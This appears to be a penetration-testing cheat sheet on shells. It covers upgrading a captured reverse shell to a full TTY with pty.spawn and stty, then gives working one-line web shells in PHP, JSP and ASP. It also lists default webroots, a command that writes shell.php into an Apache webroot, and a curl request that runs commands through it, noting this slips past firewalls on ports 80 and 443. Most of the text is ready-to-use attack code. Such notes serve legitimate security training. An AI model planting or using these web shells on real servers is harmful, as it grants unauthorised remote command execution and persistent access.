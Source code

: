 ```yaml
---
id: Reverse Shell
aliases:
  - Revshell
tags:
  - Pentest/Reverse-Shell
---
```


# Reverse Shell

<!-- Bash {{{-->
## Bash

```sh
script /dev/null -c bash
SHELL=/bin/bash script -q /dev/null
```

Upgrade to an interactive shell
```sh
export TERM=xterm
```

^Z (CTRL+Z)

```sh
stty raw -echo; fg
```
<!-- }}} -->

<!-- Python {{{-->
## Python

Check if Python is installed on the server

```sh
which python
```

```sh
which python3
```

### Interactive shell

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- `c`: Run the following Python code in the command line
- `import pty`: Import the pseudo-terminal module
- `pty.spawn("/bin/bash")`: Spawn a new process and connect it to the
  pseudo-terminal
<!-- }}} -->

<!-- Upgrading TTY {{{-->
## Upgrading TTY

Map the TTY with the remote TTY

1. Hit `Ctrl + Z` to background the shell ang get back to the local terminal

```sh
^Z
```

2. Bring back the `netcat` shell to the foreground

```sh
stty raw -echo; fg
```

3. Hit `Enter` (or input `reset` and hit `Enter`)

4. Set shell variables to make the terminal full screen


```sh
# Show the `TERM` variable
export TERM=xterm
xterm-256color

# Show the values for `rows` and `columns`
stty size
67 318
```

Set the variables in the `netcat` shell

```sh
# Set `TERM`
export TERM=xterm-256color

# Set rows and columns
stty rows 67 columns 318
```
<!-- }}} -->

# Web Shell

A Web Shell accepts the command through HTTP request parameters
(e.g. `GET`, `POST`) and prints the output to the webpage.

## Examples

PHP

```php
<?php system($_REQUEST["cmd"]); ?>
```

JSP

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
ASP


```asp
<% eval request("cmd") %>
```

## Uploading a Web Shell

The web shell should be placed into the remote host's web root (through a
vulnerability or upload feature) and executed through the web browser.

| Web Server | Default Webroot          |
| ---------- | ------------------------ |
| Apache     | `/var/www/html/`         |
| Nginx      | `/usr/local/nginx/html/` |
| IIS        | `c:\inetpub\wwwroot\`    |
| XAMPP      | `C:\xampp\htdocs\`       |

The following `bash` command writes the web shell to a Linux machine running
Apache.

```sh
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accessing Web Shell

The web shell may be accessed via a web browser or by using `cURL`.

```sh
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A web shell would bypass any firewall restriction as it will not open a new
connection on a port bup use `80`or `443`.
